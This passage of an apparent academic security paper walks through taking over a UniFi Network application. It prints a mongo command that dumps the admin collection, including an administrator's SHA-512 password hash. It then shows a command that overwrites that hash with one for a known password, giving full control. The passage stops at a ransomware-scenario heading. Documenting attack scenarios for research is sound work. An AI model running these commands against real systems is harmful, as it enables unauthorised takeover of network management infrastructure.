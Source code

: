 \begin{lstlisting}[caption=Fetching Contents of MongoDB Admin Collection.,numbers=none,label={lst:unifi_mongodb_admin_contents}]
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
MongoDB shell version v3.4.4
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.4.4
{
        "_id" : ObjectId("64750f87f19ea8014a2ceb6d"),
        "name" : "test_user",
        "email" : "admin@hotmail.com",
        "x_shadow" : "$6$msad4FLZ$WwZoWNYAGbcGY3bF8HVBQ.t.69dt/ogu1nsmeTjsorz4dBl3Q0Waoya35R.Gm0qEgPoVsUorIhVRVpoiG8cFo/",
        "time_created" : NumberLong(1685393287),
        "last_site_name" : "default"
}
\end{lstlisting}

Listing \ref{lst:unifi_mongodb_admin_contents} shows the existence of an administrator user named \textit{test\_user}, its email, and the password hash of the user, which can be seen in the \textit{x\_shadow} field. This is a SHA512 hash due to the \textit{\$6\$} characters at the start. As mentioned, cracking this hash to get the provided password would be possible. However, this could take a long time, so we opted for updating the current administrator's password. We first generate a SHA512 hash of the string ``mypassword'' using the command \texttt{mkpasswd -m sha-512 mypassword}. Lastly, the command on Listing \ref{lst:unifi_mongodb_update_admin_password} updates the administrator account password using the previously generated SHA 512 password and the \texttt{ObjectId} of the currently existing administrator.

\begin{lstlisting}[caption=Update Administrator User Account Password.,numbers=none,label={lst:unifi_mongodb_update_admin_password}]
mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("64750f87f19ea8014a2ceb6d")},{$set:{"x_shadow":"$6$zsmtIX0rAM.G4P8a$TKt4eg15VC11zpQaCVS6nLHdOYOzlfjO5m3Tvle7rtc1SOvMRYTT0jBBnRc
CqY5lAOLDNst3xfGQdX99GtpD0."}})'
\end{lstlisting}

The result is that now the \textit{test\_user} account has the newly replaced password \textit{mypassword}, and we can enter UniFi's network application and completely control it.

\subsection{Ransomware Scenario} \label{sec:validation_ransomware_scenario}


